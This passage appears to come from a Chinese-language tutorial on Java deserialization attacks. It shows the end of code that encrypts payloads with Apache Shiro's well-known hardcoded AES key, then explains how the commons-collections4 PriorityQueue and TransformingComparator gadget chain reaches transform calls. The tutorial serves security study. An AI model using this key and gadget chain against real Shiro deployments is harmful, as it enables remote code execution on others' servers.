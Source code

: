 ```java
        // base64解码得到shiro常见的硬编码key
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        // AES使用key加密payloads
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}
```

### PriorityQueue利⽤链

commons-collections4版本中还可以使用PriorityQueue利用链

PriorityQueue类实现了Serializable接口，实现了readObject方法，由于该方法会在反序列化中调用，所以需要重点关注

```java
public class PriorityQueue<E> extends AbstractQueue<E>implements java.io.Serializable {
    
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

调用链在于`heapify()`方法会调用`siftDown(int k, E x)`方法，然后调用`siftDownUsingComparator(int k, E x)`方法，然后调用`comparator.compare`方法，所以找到一个实现comparator的类，如果它的compare函数能调用transform就好了

TransformingComparator类就是这样一个类

- 继承了Comparator接口
- 调用了传入对象的transform方法

```java
public class TransformingComparator<I, O> implements Comparator<I>, Serializable {
    
    public int compare(I obj1, I obj2) {
        O value1 = this.transformer.transform(obj1);
        O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```
